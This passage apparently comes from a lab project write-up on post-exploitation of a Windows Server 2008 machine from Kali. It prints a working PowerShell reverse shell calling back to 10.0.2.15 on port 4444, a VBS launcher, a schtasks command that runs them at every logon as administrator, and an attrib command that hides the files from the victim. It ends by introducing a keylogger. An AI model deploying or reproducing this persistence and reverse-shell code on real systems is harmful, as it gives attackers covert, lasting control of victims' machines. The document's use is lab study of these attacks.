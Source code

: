 - **Setting the Scripts to Run at Logon**: The seguent command is executed `schtasks /create /tn "Persistance" /tr "wscript.exe 'C:\Persistance.vbs'" /sc onlogon /ru "BUILTIN\Administrators" /rp ""` to set the scripts to run at every log on as administrator by creating a task named "Persistance". This ensures that the attacker retains access to the machine, even if it is rebooted.

Below are shown the results of the previous operations, on the left there are the two downloaded files in the victim machine, on the right there are the operations computed through the powershell in Kali
![Persistance Win_Kali](images/Persistance.png)

Here the code inside the file "Persistance.ps1"

```powershell
Start-Job -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
	$sendback = (iex $data 2>&1 | Out-String )
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
	$stream.Write($sendbyte,0,$sendbyte.Length)
	$stream.Flush()
	}
$client.Close()
} 
Pause
```

And the code of the file "Persistance.vbs"
```powershell
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "powershell.exe -File ""C:\Persistance.ps1""", 0, False
```

Finally, to further conceal the presence of these scripts on the victim's machine, they can be marked as hidden files. This can be achieved using the `attrib` command in Windows, which allows file attributes to be viewed or changed. The specific command used is `attrib +h Persistence.ps1; attrib +h Persistence.vbs`. This command sets the 'hidden' attribute for both "Persistence.ps1" and "Persistence.vbs", making them invisible in a standard directory listing. This means that a casual inspection of the directory would not reveal the presence of these files, making it even harder for the victim to detect the intrusion.

## Keylogger

In this project, a keylogger was implemented using a C program, which was converted manually from an original C++ program found on the internet at this link: [Key-Logger C++](https://github.com/chi-wei-lien/key-logger/blob/main/keylogger.cpp). The conversion was necessary due to some missing libraries in Windows Server 2008, in modern operating systems the C++ runs correctly.
